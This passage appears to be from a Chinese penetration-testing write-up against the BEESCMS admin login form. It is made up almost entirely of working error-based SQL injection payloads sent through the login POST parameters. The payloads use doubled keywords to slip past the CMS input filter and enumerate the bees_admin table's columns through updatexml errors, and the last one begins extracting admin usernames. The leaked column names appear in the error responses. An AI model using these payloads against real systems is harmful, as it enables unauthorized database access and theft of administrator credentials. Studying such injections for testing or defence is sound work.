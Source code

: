 操作数据库失败XPATH syntax error: '~admin_purview'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema like database() and table_name like 'bees_admin' limit 4,1)),1) #' limit 0,1

### 列名admin_purview

user=admin' an and d updatexml(1,concat(0x7e,(selselectect column_name fr from om information_schema.columns whe where re table_schema like database() an and d table_name like 'bees_admin' limit 5,1)),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败XPATH syntax error: '~admin_admin'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema like database() and table_name like 'bees_admin' limit 5,1)),1) #' limit 0,1

### 列名admin_admin

user=admin' an and d updatexml(1,concat(0x7e,(selselectect column_name fr from om information_schema.columns whe where re table_schema like database() an and d table_name like 'bees_admin' limit 6,1)),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败XPATH syntax error: '~admin_mail'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema like database() and table_name like 'bees_admin' limit 6,1)),1) #'

### 列名admin_mail

user=admin' an and d updatexml(1,concat(0x7e,(selselectect column_name fr from om information_schema.columns whe where re table_schema like database() an and d table_name like 'bees_admin' limit 7,1)),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败XPATH syntax error: '~admin_tel'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema like database() and table_name like 'bees_admin' limit 7,1)),1) #' limit 0,1

### 列名admin_tel

user=admin' an and d updatexml(1,concat(0x7e,(selselectect column_name fr from om information_schema.columns whe where re table_schema like database() an and d table_name like 'bees_admin' limit 8,1)),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败XPATH syntax error: '~is_disable'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema like database() and table_name like 'bees_admin' limit 8,1)),1) #' limit 0,1

### 列名is_disable

后面的列名就不查了

user=admin' an and d updatexml(1,concat(0x7e,(selselectect admin_name fro from m beescms.bees_admin limit 0,1)),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39
